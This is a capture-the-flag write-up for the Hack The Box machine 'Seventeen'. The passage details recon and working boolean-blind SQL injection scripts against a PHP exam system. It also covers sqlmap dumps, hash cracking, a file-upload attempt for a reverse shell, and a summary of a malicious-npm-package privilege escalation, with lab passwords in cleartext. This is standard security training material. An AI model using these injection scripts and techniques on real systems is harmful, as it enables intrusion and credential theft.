


---
tags:
  - CVE-2020-12640
  - sqli
  - npm
  - nodejs
group: Linux
---


- Machine : https://app.hackthebox.com/machines/seventeen
- Reference : https://0xdf.gitlab.io/2022/09/24/htb-seventeen.html
- Solved : 2025.3.16. (Sun) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: 22 (SSH), 80 (HTTP), 8000 (HTTP-alt), 4873 (Verdaccio – Private NPM registry).
    - **Web Enumeration**:
        - `exam.seventeen.htb` revealed "Exam Reviewer Management System".
        - Found SQL Injection point at `/take_exam&id=1`.
        - Discovered subdomains: `exam`, `oldmanagement`, `mastermailer`.
        
2. **Web Exploitation**
    - **SQL Injection** (Boolean-Based):
        - Enumerated DB name → `erms_db`.
        - Enumerated tables, columns, and dumped credentials from `users` table.
        - Extended SQLi to dump additional databases: `db_sfms`, `roundcubedb`.
    - **Password Cracking**:
        - Cracked MD5 password: `autodestruction` for student login.
    - **File Upload Abuse**:
        - Uploaded PHP reverse shell via School File Management System.
        - Found file path via DB and bypassed access control with `.htaccess` overwrite.
        - Got shell as `www-data`.
        
3. **Privilege Escalation #1 (www-data → mark)**
    - Found credentials in `db_sfms` and `employeemanagementsystem` configs.
    - Reused `2020bestyearofmylife` password for `mark`.
    - Logged in via SSH as `mark`.
    
4. **Privilege Escalation #2 (mark → kavi)**
    - Found sensitive email hinting at custom logging system and Verdaccio registry.
    - Downloaded `db-logger` package and extracted hardcoded credentials.
    - Logged in as `kavi` via SSH using password `IhateMathematics123#`.
    
5. **Privilege Escalation #3 (kavi → root)**
    - `kavi` had `sudo` access to `/opt/app/startup.sh`.
    - `.npmrc` used local registry (Verdaccio).
    - Crafted malicious `loglevel` package with SUID bash payload.
    - Hosted it on attacker’s Verdaccio.
    - Triggered package install via `startup.sh`, resulting in root-owned SUID bash.
    - Used it to escalate to `root`.

### Key Techniques:

- **Subdomain Enumeration & VHost Injection**: Revealed hidden services and file paths.
- **Boolean-Based Blind SQL Injection**: Extracted full schema and data manually.
- **File Upload Abuse + LFI/Installer Abuse**: Used Roundcube CVE-2020-12640.
- **Registry Hijack with Malicious Package**: Exploited NPM dependency install flow.
- **Misconfigured `sudo` Permission**: Elevated privilege via package preloading.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ /opt/custom-scripts/port-scan.sh 10.10.11.165 
[*] Performing quick TCP port scan on 10.10.11.165...
[*] Performing quick UDP port scan on 10.10.11.165 (top 1000 UDP ports)...
[+] Found open TCP ports: 22,80,8000
[*] Performing detailed TCP scan on 10.10.11.165...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-15 13:34 MDT
Nmap scan report for 10.10.11.165
Host is up (0.13s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2e:b2:6e:bb:92:7d:5e:6b:36:93:17:1a:82:09:e4:64 (RSA)
|   256 1f:57:c6:53:fc:2d:8b:51:7d:30:42:02:a4:d6:5f:44 (ECDSA)
|_  256 d5:a5:36:38:19:fe:0d:67:79:16:e6:da:17:91:eb:ad (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Let's begin your education with us! 
|_http-server-header: Apache/2.4.29 (Ubuntu)
8000/tcp open  http    Apache httpd 2.4.38
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: 403 Forbidden
Service Info: Host: 172.17.0.12; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

It seems that there's an educational website running on port 80.

### http(80)


Get a hint for domain name. Let's add this to `/etc/hosts`.

```yaml
HTTP/1.1 200 OK
Date: Sat, 15 Mar 2025 19:43:37 GMT
Server: Apache/2.4.29 (Ubuntu)
Last-Modified: Sun, 10 Apr 2022 05:31:57 GMT
ETag: "50d1-5dc46256b75a0-gzip"
Accept-Ranges: bytes
Vary: Accept-Encoding
Content-Length: 20689
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Content-Type: text/html
```

The http response doesn't look any special.

Let's fuzz to find subdomains.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ wfuzz -u http://10.10.11.165 -H "Host: FUZZ.seventeen.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 20689
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.165/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000689:   400        10 L     35 W       301 Ch      "gc._msdcs"                 
000001013:   200        347 L    991 W      17375 Ch    "exam"                      

Total time: 0
Processed Requests: 4989
Filtered Requests: 4987
Requests/sec.: 0
```

Two subdomains are found. Add them to `/etc/hosts`.
The first one `gc._msdcs` doesn't return anything, but `exam` does.

### http(80) - exam.seventeen.htb


"Seventeen Exam Reviewer Management System" page is returned.
It has `/admin` tab, and most links are alive unlike the main page.


But the `/admin` tab seems to be blocked.


I can find the SW stack of this app : Examination Management System 2021

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ searchsploit examination management system
Exploits: No Results
Shellcodes: No Results


┌──(kali㉿kali)-[~/htb/seventeen]
└─$ searchsploit exam reviewer management system
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Exam Reviewer Management System 1.0 - Remote Code Executio | php/webapps/50726.txt
Exam Reviewer Management System 1.0 - ‘id’ SQL Injecti | php/webapps/50725.txt
----------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Cannot find anything with the footer title, but find several with "exam reviewer management system".

According to the exploit explanation, there's an SQL Injection vulnerability on the following URL :
http://exam.seventeen.htb/?p=take_exam&id=1

Let's visit the page and see what's coming out.


It returns a graded result.


The tried SQL Injection query also works.

`http://exam.seventeen.htb/?p=take_exam&id=1' ORDER BY 20-- -`
With the `ORDER BY` query, I can find that the number of columns is 11.


`http://exam.seventeen.htb/?p=take_exam&id=2%27%20UNION%20SELECT%201,2,3,4,5,6,7,8,9,10,11;%20--%20-` shows another exam page.


### SQL Injection

##### Find # of Columns

```python
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ cat sqli_find_n_columns.py 
import requests

# 🔧 Configuration: Target URL and response keyword for successful responses
BASE_URL = "http://exam.seventeen.htb/?p=take_exam&id="
SUCCESS_KEYWORD = "202202-00001"
MAX_COLUMNS_TO_TEST = 12

def is_column_count_valid(column_count):
    """
    Check if a specific ORDER BY column count is valid
    """
    payload = f"1' ORDER BY {column_count}-- -"
    target_url = BASE_URL + payload
    try:
        response = requests.get(target_url, timeout=5)
        return SUCCESS_KEYWORD in response.text
    except Exception as e:
        print(f"[!] Request failed: {e}")
        return False

def detect_column_count():
    print("[*] Starting column count detection using ORDER BY...")
    for column_count in range(1, MAX_COLUMNS_TO_TEST + 1):
        if is_column_count_valid(column_count):
            print(f"[+] ORDER BY {column_count} → valid")
        else:
            print(f"[!] ORDER BY {column_count} → failed. Estimated number of columns: {column_count - 1}")
            return column_count - 1
    print(f"[!] All {MAX_COLUMNS_TO_TEST} ORDER BY tests were valid. The number of columns may be higher.")
    return MAX_COLUMNS_TO_TEST

if __name__ == "__main__":
    column_count = detect_column_count()
    print(f"\n[✔] Final estimated number of columns: {column_count}"
```

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ python sqli_find_n_columns.py 
[*] Starting column count detection using ORDER BY...
[+] ORDER BY 1 → valid
[+] ORDER BY 2 → valid
[+] ORDER BY 3 → valid
[+] ORDER BY 4 → valid
[+] ORDER BY 5 → valid
[+] ORDER BY 6 → valid
[+] ORDER BY 7 → valid
[+] ORDER BY 8 → valid
[+] ORDER BY 9 → valid
[+] ORDER BY 10 → valid
[+] ORDER BY 11 → valid
[!] ORDER BY 12 → failed. Estimated number of columns: 11

[✔] Final estimated number of columns: 11
```


##### Find DB name

```python
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ cat sqli_get_db_name.py 
import requests

BASE_URL = "http://exam.seventeen.htb/?p=take_exam&id="
SUCCESS_KEYWORD = "202202-00001"
MAX_DB_LENGTH = 50  # 최대 길이 시도

def is_condition_true(condition):
    payload = f"1' AND {condition}-- -"
    target_url = BASE_URL + payload
    try:
        response = requests.get(target_url, timeout=5)
        return SUCCESS_KEYWORD in response.text
    except Exception as e:
        print(f"[!] Request failed: {e}")
        return False

def find_database_length():
    print("[*] Finding database name length...")
    for length in range(1, MAX_DB_LENGTH + 1):
        condition = f"LENGTH(database())={length}"
        if is_condition_true(condition):
            print(f"[✔] Database name length: {length}")
            return length
    print("[!] Could not determine the length.")
    return None

def extract_database_name(length):
    print("[*] Extracting database name...")
    db_name = ""
    for position in range(1, length + 1):
        for ascii_code in range(32, 127):  # Printable characters
            condition = f"ASCII(SUBSTRING(database(),{position},1))={ascii_code}"
            if is_condition_true(condition):
                db_name += chr(ascii_code)
                print(f"[+] Position {position}: {chr(ascii_code)}")
                break
    print(f"[✔] Extracted DB name: {db_name}")
    return db_name

if __name__ == "__main__":
    db_length = find_database_length()
    if db_length:
        db_name = extract_database_name(db_length)
```

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ python sqli_get_db_name.py 
[*] Finding database name length...
[✔] Database name length: 7
[*] Extracting database name...
[+] Position 1: e
[+] Position 2: r
[+] Position 3: m
[+] Position 4: s
[+] Position 5: _
[+] Position 6: d
[+] Position 7: b
[✔] Extracted DB name: erms_db
```

##### Tables

```python
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ cat sqli_get_tables.py 
import requests

BASE_URL = "http://exam.seventeen.htb/?p=take_exam&id="
SUCCESS_KEYWORD = "202202-00001"

def is_condition_true(condition):
    payload = f"1' AND {condition}-- -"
    target_url = BASE_URL + payload
    try:
        response = requests.get(target_url, timeout=5)
        return SUCCESS_KEYWORD in response.text
    except Exception as e:
        print(f"[!] Request failed: {e}")
        return False

def find_table_count(max_tables=20):
    print("[*] Finding total number of tables in current database...")
    for i in range(1, max_tables + 1):
        condition = f"(SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=database())={i}"
        if is_condition_true(condition):
            print(f"[✔] Number of tables: {i}")
            return i
    print("[!] Could not determine the number of tables.")
    return None

def find_table_name_length(table_index, max_length=50):
    print(f"[*] Finding length of table name at index {table_index}...")
    for length in range(1, max_length + 1):
        condition = f"LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET {table_index}))={length}"
        if is_condition_true(condition):
            print(f"[✔] Length of table {table_index}: {length}")
            return length
    print("[!] Could not determine table name length.")
    return None

def extract_table_name(table_index, length):
    print(f"[*] Extracting table name at index {table_index}...")
    table_name = ""
    for position in range(1, length + 1):
        for ascii_code in range(32, 127):  # Printable ASCII
            condition = f"ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET {table_index}), {position}, 1))={ascii_code}"
            if is_condition_true(condition):
                table_name += chr(ascii_code)
                print(f"[+] Position {position}: {chr(ascii_code)}")
                break
    print(f"[✔] Extracted table name {table_index}: {table_name}")
    return table_name

if __name__ == "__main__":
    table_count = find_table_count()
    all_tables = []
    if table_count:
        for i in range(table_count):
            name_length = find_table_name_length(i)
            if name_length:
                table = extract_table_name(i, name_length)
                all_tables.append(table)
    print(f"\n[✔] All tables: {all_tables}")
```

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ python sqli_get_tables.py
[*] Finding total number of tables in current database...
[✔] Number of tables: 6
[*] Finding length of table name at index 0...
[✔] Length of table 0: 13
[*] Extracting table name at index 0...
...SNIP...
[✔] Extracted table name 0: category_list
[*] Finding length of table name at index 1...
[✔] Length of table 1: 9
[*] Extracting table name at index 1...
...SNIP...
[✔] Extracted table name 1: exam_list
[*] Finding length of table name at index 2...
[✔] Length of table 2: 11
[*] Extracting table name at index 2...
...SNIP...
[✔] Extracted table name 2: option_list
[*] Finding length of table name at index 3...
[✔] Length of table 3: 13
[*] Extracting table name at index 3...
...SNIP...
[✔] Extracted table name 3: question_list
[*] Finding length of table name at index 4...
[✔] Length of table 4: 11
[*] Extracting table name at index 4...
...SNIP...
[✔] Extracted table name 4: system_info
[*] Finding length of table name at index 5...
[✔] Length of table 5: 5
[*] Extracting table name at index 5...
...SNIP...
[✔] Extracted table name 5: users

[✔] All tables: ['category_list', 'exam_list', 'option_list', 'question_list', 'system_info', 'users']
```

##### Columns

```python
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ cat sqli_get_columns.py 
import requests

BASE_URL = "http://exam.seventeen.htb/?p=take_exam&id="
SUCCESS_KEYWORD = "202202-00001"
TARGET_TABLE = "users"

def is_condition_true(condition):
    payload = f"1' AND {condition}-- -"
    target_url = BASE_URL + payload
    try:
        response = requests.get(target_url, timeout=5)
        return SUCCESS_KEYWORD in response.text
    except Exception as e:
        print(f"[!] Request failed: {e}")
        return False

def find_column_count(max_columns=30):
    print(f"[*] Finding total number of columns in table '{TARGET_TABLE}'...")
    for i in range(1, max_columns + 1):
        condition = f"(SELECT COUNT(column_name) FROM information_schema.columns WHERE table_name='{TARGET_TABLE}')={i}"
        if is_condition_true(condition):
            print(f"[✔] Number of columns in '{TARGET_TABLE}': {i}")
            return i
    print("[!] Could not determine the number of columns.")
    return None

def find_column_name_length(column_index, max_length=50):
    print(f"[*] Finding length of column name at index {column_index}...")
    for length in range(1, max_length + 1):
        condition = f"LENGTH((SELECT column_name FROM information_schema.columns WHERE table_name='{TARGET_TABLE}' LIMIT 1 OFFSET {column_index}))={length}"
        if is_condition_true(condition):
            print(f"[✔] Length of column {column_index}: {length}")
            return length
    print("[!] Could not determine column name length.")
    return None

def extract_column_name(column_index, length):
    print(f"[*] Extracting column name at index {column_index}...")
    column_name = ""
    for position in range(1, length + 1):
        for ascii_code in range(32, 127):  # Printable ASCII
            condition = f"ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='{TARGET_TABLE}' LIMIT 1 OFFSET {column_index}), {position}, 1))={ascii_code}"
            if is_condition_true(condition):
                column_name += chr(ascii_code)
                print(f"[+] Position {position}: {chr(ascii_code)}")
                break
    print(f"[✔] Extracted column name {column_index}: {column_name}")
    return column_name

if __name__ == "__main__":
    column_count = find_column_count()
    all_columns = []
    if column_count:
        for i in range(column_count):
            name_length = find_column_name_length(i)
            if name_length:
                col_name = extract_column_name(i, name_length)
                all_columns.append(col_name)
    print(f"\n[✔] All columns in '{TARGET_TABLE}': {all_columns}")

```

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ python sqli_get_columns.py 
[*] Finding total number of columns in table 'users'...
[✔] Number of columns in 'users': 19
[*] Finding length of column name at index 0...
[✔] Length of column 0: 2
[*] Extracting column name at index 0...
...SNIP...
[✔] Extracted column name 0: id
[*] Finding length of column name at index 1...
[✔] Length of column 1: 9
[*] Extracting column name at index 1...
...SNIP...
[✔] Extracted column name 1: firstname
[*] Finding length of column name at index 2...
[✔] Length of column 2: 8
[*] Extracting column name at index 2...
...SNIP...
[✔] Extracted column name 2: lastname
[*] Finding length of column name at index 3...
[✔] Length of column 3: 8
[*] Extracting column name at index 3...
...SNIP...
[✔] Extracted column name 3: username
[*] Finding length of column name at index 4...
[✔] Length of column 4: 8
[*] Extracting column name at index 4...
...SNIP...
[✔] Extracted column name 4: password
[*] Finding length of column name at index 5...
[✔] Length of column 5: 6
[*] Extracting column name at index 5...
...SNIP...
[✔] Extracted column name 5: avatar
[*] Finding length of column name at index 6...
[✔] Length of column 6: 10
[*] Extracting column name at index 6...

...SNIP...
```

##### Dump

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ python sqli_dump.py     

...SNIP...

[✔] Extracted Data from Table:
{'id': '1', 'username': 'admin', 'password': 'fc8ec7b43523e186a27f46957818391c', 'avatar': '../oldmanagement/files/avatar.png'}
{'id': '6', 'username': 'UndetectableMark', 'password': '48bb86d036bb993dfdcf7fefdc60cc06', 'avatar': '../oldmanagement/files/avatar.png'}
{'id': '7', 'username': 'Stev1992', 'password': '184fe92824bea12486ae9a5600228ee', 'avatar': '../oldmanagement/files/avatar.png'}
```

Given the extracted password, I tried to crack the hash but failed.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ cat hashes             
fc8ec7b43523e186a27f46957818391c
48bb86d036bb993dfdcf7fefdc60cc06
184fe92824bea12486ae9a5600228ee


┌──(kali㉿kali)-[~/htb/seventeen]
└─$ hashcat -m 0 -a 0 hashes /usr/share/wordlists/rockyou.txt        
hashcat (v6.2.6) starting

...SNIP...

Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 0 (MD5)
Hash.Target......: hashes
Time.Started.....: Sun Mar 16 01:24:40 2025 (3 secs)
Time.Estimated...: Sun Mar 16 01:24:43 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  6008.7 kH/s (0.04ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 0/2 (0.00%) Digests (total), 0/2 (0.00%) Digests (new)

...SNIP...
```

Instead of the password hash, I focused on `avatar` field.
Also, I don't really have any login page to test the credentials for now.

Given the usual subdomain location is `/var/www/{vhost}`, `../oldmanagement/files/avatar.png` implies that the location of the file might be outside of web root directory.

So, I added a new subdomain `oldmanagement.seventeen.htb` to `/etc/hosts`.

### http(8000) - oldmanagement.seventeen.htb


The request is redirected to port 8000.

I tried all found credentials, but none of them worked.
Instead, what I can try here is using SQLi vulnerability again with the same spot.

Let's use `sqlmap` this time.

##### SQLi again

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ sqlmap -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --dbs

...SNIP...

available databases [4]:
[*] db_sfms
[*] erms_db
[*] information_schema
[*] roundcubedb
```

I retrieved all existing DBs. And found 2 extra databases; `db_sfms`, `roundcubedb`
Given the name "School File Management System", I guessed that `db_sfms` is for the `oldmanagement.seventeen.htb`.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ sqlmap -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch -D db_sfms --tables

...SNIP...

Database: db_sfms
[3 tables]
+---------+
| storage |
| user    |
| student |
+---------+
```

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ sqlmap -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch -D db_sfms -T user --dump

...SNIP...

Database: db_sfms
Table: user
[3 entries]
+---------+---------------+---------------+----------------------------------+------------------+---------------+
| user_id | status        | lastname      | password                         | username         | firstname     |
+---------+---------------+---------------+----------------------------------+------------------+---------------+
| 1       | administrator | Administrator | fc8ec7b43523e186a27f46957818391c | admin            | Administrator |
| 2       | Regular       | Anthony       | b35e311c80075c4916935cbbbd770cef | UndetectableMark | Mark          |
| 4       | Regular       | Smith         | 112dd9d08abf9dcceec8bc6d3e26b138 | Stev1992         | Steven        |
+---------+---------------+---------------+----------------------------------+------------------+---------------+
```

Found 3 credentials.
It seems that `administrator` in two different DBs are using the same password.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ hashcat -m 0 -a 0 sfms.hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

...SNIP...

Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 0 (MD5)
Hash.Target......: sfms.hashes
Time.Started.....: Sun Mar 16 01:57:26 2025 (2 secs)
Time.Estimated...: Sun Mar 16 01:57:28 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  5846.1 kH/s (0.04ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 0/3 (0.00%) Digests (total), 0/3 (0.00%) Digests (new)
```

No hashes were cracked.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ sqlmap -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch -D db_sfms -T student --dump

Database: db_sfms                                                                           
Table: student
[4 entries]
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+
| stud_id | yr | gender | stud_no | lastname | password                                           | firstname |
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+
| 1       | 1A | Male   | 12345   | Smith    | 1a40620f9a4ed6cb8d81a1d365559233                   | John      |
| 2       | 2B | Male   | 23347   | Mille    | abb635c915b0cc296e071e8d76e9060c                   | James     |
| 3       | 2C | Female | 31234   | Shane    | a2afa567b1efdb42d8966353337d9024 (autodestruction) | Kelly     |
| 4       | 3C | Female | 43347   | Hales    | a1428092eb55781de5eb4fd5e2ceb835                   | Jamie     |
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+
```

`student` table also has credentials.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ hashcat -m 0 -a 0 sfms_student.md5 /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
* Device #1: cpu--0x000, 1436/2937 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 4 digests; 4 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

a2afa567b1efdb42d8966353337d9024:autodestruction    
```

One hash for the student Kelly Shane is `autodestruction`
With the found `stud_no` 31234, I could sign-in.




The PDF file is just a grade sheet, doesn't have any useful information.

When uploading a file, it sends a request as follows;

```yaml
POST /oldmanagement/save_file.php HTTP/1.1
Host: oldmanagement.seventeen.htb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------166382257631389649042800009100
Content-Length: 2922
Origin: http://oldmanagement.seventeen.htb:8000
Connection: keep-alive
Referer: http://oldmanagement.seventeen.htb:8000/oldmanagement/student_profile.php
Cookie: PHPSESSID=16a3c3e3ccc4d46f6e3d85c67d2d1ac5
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```


Wait.. there's a hint for the new subdomain at the bottom of the grade sheet.


Let's add `mastermailer.seventeen.htb` to `/etc/hosts`.

I tried to upload several files for test, and it doesn't seem to have any filters in it.
But there's no ways to fetch the uploaded php page so far.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ gobuster dir -u http://oldmanagement.seventeen.htb:8000/oldmanagement -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://oldmanagement.seventeen.htb:8000/oldmanagement
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/files                (Status: 301) [Size: 363] [--> http://oldmanagement.seventeen.htb:8000/oldmanagement/files/]
/admin                (Status: 301) [Size: 363] [--> http://oldmanagement.seventeen.htb:8000/oldmanagement/admin/]
```

I suspected that `/files` is the directory stores all uploaded files, but I couldn't fetch the files by their names.

Let's analyze it more with its source code.
Here's the source code [link](https://www.sourcecodester.com/sites/default/files/download/razormist/school-file-management-system.zip) for "School File Management System".

When downloading a file, the link is like `http://oldmanagement.seventeen.htb:8000/oldmanagement/download.php?store_id=34`.
So, let's investigate `download.php` to understand how the files are saved.

```bash
┌──(kali㉿kali)-[~/htb/seventeen/sfms]
└─$ ls
'School File Management System'   school-file-management-system.zip


┌──(kali㉿kali)-[~/htb/seventeen/sfms]
└─$ tree
.
├── School File Management System
│   ├── admin

...SNIP...

│   ├── db
│   │   └── db_sfms.sql
│   ├── download.php

...SNIP...
```

```php
┌──(kali㉿kali)-[~/htb/seventeen/sfms/School File Management System]
└─$ cat download.php            
<?php
        require_once 'admin/conn.php';
        if(ISSET($_REQUEST['store_id'])){
                $store_id = $_REQUEST['store_id'];

                $query = mysqli_query($conn, "SELECT * FROM `storage` WHERE `store_id` = '$store_id'") or die(mysqli_error());
                $fetch  = mysqli_fetch_array($query);
                $filename = $fetch['filename'];
                $stud_no = $fetch['stud_no'];
                header("Content-Disposition: attachment; filename=".$filename);
                header("Content-Type: application/octet-stream;");
                readfile("files/".$stud_no."/".$filename);
        }
?>  
```

It seems that the file is saved under `$stud_no` named folder.

Let's investigate `save_file.php` file as well.

```php
┌──(kali㉿kali)-[~/htb/seventeen/sfms/School File Management System]
└─$ cat save_file.php      
<?php
        require_once 'admin/conn.php';

        if(ISSET($_POST['save'])){
                $stud_no = $_POST['stud_no'];
                $file_name = $_FILES['file']['name'];
                $file_type = $_FILES['file']['type'];
                $file_temp = $_FILES['file']['tmp_name'];
                $location = "files/".$stud_no."/".$file_name;
                $date = date("Y-m-d, h:i A", strtotime("+8 HOURS"));
                if(!file_exists("files/".$stud_no)){
                        mkdir("files/".$stud_no);
                }

                if(move_uploaded_file($file_temp, $location)){
                        mysqli_query($conn, "INSERT INTO `storage` VALUES('', '$file_name', '$file_type', '$date', '$stud_no')") or die(mysqli_error());
                        header('location: student_profile.php');
                }
        }
?>   
```

So it's clear that the uploaded files are saved in `/oldmanagement/files/31234/` with its own file name without any change.

However, when I fetched the uploaded path, it returns 403 error.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ curl -v http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/rshell_9000.php 
* Host oldmanagement.seventeen.htb:8000 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.165
*   Trying 10.10.11.165:8000...
* Connected to oldmanagement.seventeen.htb (10.10.11.165) port 8000
* using HTTP/1.x
> GET /oldmanagement/files/31234/rshell_9000.php HTTP/1.1
> Host: oldmanagement.seventeen.htb:8000
> User-Agent: curl/8.12.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 403 Forbidden
< Date: Sun, 16 Mar 2025 09:36:23 GMT
< Server: Apache/2.4.38 (Debian)
< Content-Length: 18
< Content-Type: text/html; charset=iso-8859-1
< 
* Connection #0 to host oldmanagement.seventeen.htb left intact
<h1>Forbidden</h1>    
```

It seems that the server is blocking direct access to the files.
Let's keep that in our note, and move on.

Wait.... What about using SQLi again? There's another table `storage` in `db_sfms` database.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ sqlmap -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch -D db_sfms -T storage --dump

...SNIP...

Database: db_sfms
Table: storage
[1 entry]
+----------+---------+----------------------+-----------------+----------------------+
| store_id | stud_no | filename             | file_type       | date_uploaded        |
+----------+---------+----------------------+-----------------+----------------------+
| 33       | 31234   | Marksheet-finals.pdf | application/pdf | 2020-01-26, 06:57 PM |
+----------+---------+----------------------+-----------------+----------------------+
```

